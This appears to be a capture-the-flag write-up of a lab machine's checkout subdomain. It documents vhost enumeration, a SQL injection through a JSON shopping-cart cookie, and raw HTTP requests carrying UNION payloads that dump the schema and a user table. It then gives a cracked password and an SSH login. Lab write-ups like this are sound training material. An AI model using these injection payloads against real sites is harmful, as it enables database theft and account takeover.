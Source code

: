
## Todos

- [x] Purpose
- [ ] Backend
- [x] Path discovery
- [x] Virtual host discovery
- [x] Authentication
- [ ] Input analysis

## Purpose

The checkout page for Shared Store. It appears to aggregate all items in the user's cart based on their ID (each user's cart is simply a URL-encoded cookie). However, the form doesn't submit anywhere--it just `alert()`s a thank you message.

## Backend

Still appears to be Nginx, at least.

## Path Discovery

Returns `200` and the same checkout page for every possible path.

## Virtual Host Discovery

Nothing.

```bash
$ gobuster vhost -u http://checkout.shared.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://checkout.shared.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/11/17 14:21:33 Starting gobuster in VHOST enumeration mode
===============================================================

===============================================================
2022/11/17 14:22:04 Finished
===============================================================
```

## Authentication

There doesn't appear to be any.

## Input Analysis

### `custom_cart` Cookie

Adding items to your cart on `https://shared.htb` creates a client-side cookie named `custom_cart` that is a URL-encoded JSON object where each key is an item's ID and each key's value is the quantity of that item to be purchased, like so:

```json
{"CRAAFTKP":"1"}
```

The `custom_cart` cookie `{"CRAFFTKP1337": "1"}` results in `http://checkout.shared.htb` failing to lookup the item. That indicates the backend is likely taking each key from this object and using it in a SQL query to find the price of each item. It may be vulnerable to SQL injection.

The SQL injection vulnerability is confirmed by injecting the ID `CRAAFTKP'-- -`, which causes the application to successfully fetch the item with ID `CRAAFTKP`.

```sql
SELECT price FROM items WHERE id = '$ID'
```

```sql
SELECT id,product,price FROM items WHERE id = 'CRAAFTKP'-- -'
```

- There are three columns being returned
- All appear to be of type `VARCHAR`
- Databases:
	- `information_schema`
	- `checkout`
		- `product`
			- `id`
			- `code`
			- `price`
		- `user`
			- `id`
			- `username`
			- `password`

### `checkout` Database Enumeration

```http
GET / HTTP/1.1
Host: checkout.shared.htb
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: custom_cart={"CRAAFTKP' UNION SELECT NULL,GROUP_CONCAT(CONCAT('\n', table_name, ':', column_name)),1337 FROM information_schema.columns WHERE table_schema = 'checkout' ORDER BY 1-- -": "1"}
```

### Dumping `checkout.user`

There is only one user in `checkout.user`.

```http
GET / HTTP/1.1
Host: checkout.shared.htb
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: custom_cart={"CRAAFTKP' UNION SELECT NULL,GROUP_CONCAT(CONCAT('\n', username, ':', password)),1337 FROM checkout.user ORDER BY 1-- -": "1"}

```

- `username`: `james_mason`
- `password`: `fc895d4eddc2fc12f995e18c865cf273`

After cracking the hash, `james_mason`'s password is `Soleil101`. This grants SSH access.

```bash
$ ssh james_mason@shared.htb
The authenticity of host 'shared.htb (10.129.41.109)' can't be established.
ED25519 key fingerprint is SHA256:UXHSnbXewSQjJVOjGF5RVNToyJZqtdQyS8hgr5P8pWM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'shared.htb' (ED25519) to the list of known hosts.
james_mason@shared.htb's password:
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 14 14:45:22 2022 from 10.10.14.4
james_mason@shared:~$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
```
